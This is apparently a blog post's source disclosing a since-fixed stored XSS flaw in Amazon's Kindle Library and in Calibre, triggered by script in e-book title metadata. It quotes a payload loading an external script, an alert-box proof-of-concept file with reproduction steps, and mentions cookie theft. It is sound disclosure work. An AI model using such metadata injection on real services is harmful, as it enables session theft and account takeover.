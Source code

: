 ```yaml
---
layout: post
published: true
#redirect_from: /2014/09/amazon-stored-xss-book-metadata.html
title: "Amazon.com Stored XSS via Book Metadata"
tags: amazon,web,xss
category: Vulnerabilities
excerpt: "I have found a Stored Cross-Site Scripting (XSS) vulnerability on Amazon.com. This post explains the issue and describes a possible venue of exploitation."
image:
  feature: banner-amazon2.jpg
---
```

[img1]: /images/ie-kindlelib-amzCOM.png
{: height="50%" width="50%"}
[img2]: /images/2014-reintrot.png
{: height="50%" width="50%"}
[img3]: /images/calibre.png
{: height="50%" width="50%"}

**Amazon's Kindle Library**, also known as "Manage Your Content and Devices" and "Manage your Kindle", **is, at the time of writing, vulnerable to Stored Cross-Site Scripting (XSS) attacks**. (Update 2014-09-16: After I had published my findings, Amazon fixed the issue.) Malicious code can be injected via e-book metadata; for example, an e-book's title.

Once an attacker manages to have an e-book (file, document, ...) with a title like 

{% highlight html %}
<script src="https://www.example.org/script.js"></script>
{% endhighlight %}

added to the victim's library, the code will be executed as soon as the victim opens the Kindle Library web page. As a result, Amazon account cookies can be accessed by and transferred to the attacker and the victim's Amazon account can be compromised.

<!--more-->

<figure>
	<a href="/images/ie-kindlelib-amzCOM.png"><img src="/images/ie-kindlelib-amzCOM.png"></a>
</figure>

## Who is affected?

Basically, everyone who uses Amazon's Kindle Library to store e-books or to deliver them to a Kindle.

However, users most likely to fall victim to this vulnerability are those who obtain e-books from untrustworthy sources (read: pirated e-books) and then use Amazon's "Send to Kindle" service to have them delivered to their Kindle. From the supplier's point of view, vulnerabilities like this present an opportunity to gain access to active Amazon accounts.

Users who stick to e-books sold and delivered by Amazon should be safe, unless there's another oversight on Amazon's part, such as the one described here: <http://drwetter.eu/amazon/>

## Proof of Concept & Demonstration

A Proof of Concept (PoC) file can be downloaded from <https://fl7.de/pub/2014/amazon-mobixss/pub.mobi>; its title metadata contains the classic "&lt;script&gt;alert('xss')</script>" payload. Simply send it to your "Send to Kindle" email address and browse to your Kindle Library page at <https://www.amazon.com/mn/dcw/myx.html#/home/content/pdocs/dateDsc/>. Depending on whether the file was already delivered to your Kindle or not, you may have to select "Pending Deliveries" from the drop-down box below the "Your Content" tab.   
   
    
And this is what it looks like:

<figure>
	<a href="/images/2014-reintrot.png"><img src="/images/2014-reintrot.png"></a>
</figure>


You can remove the file from your library as soon as it has been delivered to your Kindle, and while doing so you will notice about half a dozen additional alert boxes.

## History, Response

When I first reported this vulnerability to Amazon in November 2013, my initial Proof of Concept, a MOBI e-book with a title similar to the one mentioned above, contained code to collect cookies and send them to me. Interestingly, Amazon's Information Security team continued to use this PoC on internal preproduction systems for months after the vulnerability had been fixed. This made it even more surprising that, when rolling out a new version of the "Manage your Kindle" web application, Amazon reintroduced this very vulnerability.

Amazon chose not to respond to my subsequent email detailing the issue, and two months later, the vulnerability remains unfixed.

## Not Just Amazon

You may be thinking that XSS-inducing metadata in e-books doesn't affect you simply because you are organizing your e-books not through a web interface, but with Calibre <http://calibre-ebook.com/>. Well, have a look at this:

<figure>
	<a href="/images/calibre.png"><img src="/images/calibre.png"></a>
</figure>
 
Calibre's developer, Kovid Goyal, acknowledged the problem less than four hours after I had reported it (<https://bugs.launchpad.net/calibre/+bug/1243976>), and a new release - version 1.8.0 - including a bugfix was made available the following day. This is quite an impressive response (time), even more so when you consider that Calibre is maintained by an individual who makes this software available at no cost. If you are a frequent Calibre user, consider making a donation!
 
## Timeline

2013-10-24 Vulnerability discovered.  
2013-11-15 Vulnerability reported to security@amazon.com.  
2013-11-19 Amazon.com Information Security assigns case number.  
2013-12-06 Reported vulnerability fixed.  
2014-??-?? Vulnerability reintroduced by "Manage Your Kindle" web page redesign.  
2014-07-09 Vulnerability reported to security@amazon.com.  
2014-09-12 (Still no response from Amazon. Public disclosure.)  
2014-09-16 Reported vulnerability fixed.  


